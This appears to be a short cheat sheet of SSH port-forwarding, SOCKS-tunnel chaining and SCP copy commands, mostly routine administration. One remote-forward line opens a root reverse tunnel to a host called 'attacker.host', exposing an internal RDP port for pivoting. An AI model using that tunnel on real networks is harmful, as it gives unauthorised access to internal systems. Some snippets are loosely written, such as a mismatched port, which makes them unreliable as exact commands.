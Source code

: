 #### port forward

*local port forward*

```ssh -L 8443:127.0.0.1:8443 user@remote.host```

```ssh -i id_rsa.key -L 6969:127.0.0.1:6969 user@remote.host```

*remote port forward*

```ssh -R 5901:127.0.0.1:5901 user@remote.host```

```ssh -l root -t -t -R 3389:10.10.10.1:3398 attacker.host```

-----


#### port forward SOCKS5

```ssh -D 5555 user@yourserver.com -p 5555```

-----

*Joining Tunnels Together*

```Machine A: ssh -D 5555 user@machineA -p5555```
```Machine B: ssh user@machineA -D 5555```
```Machine C: ssh user@machineB -L 5555:localhost:5555```


#### SCP transfers

*Local (file) to remote host specifying remote port*

```scp -P 1337 file.zip username@remotehost.com:/remote/dir/file.zip```

*Local (directory) to remote host using default port 22*

```scp /local/dir/ username@remotehost.com:/remote/dir/```

*Remote host A to remote host B*

```scp username@host-a.com:/host_a/dir/file.zip username@host-b.com:/host_b/dir/file.zip```

-----

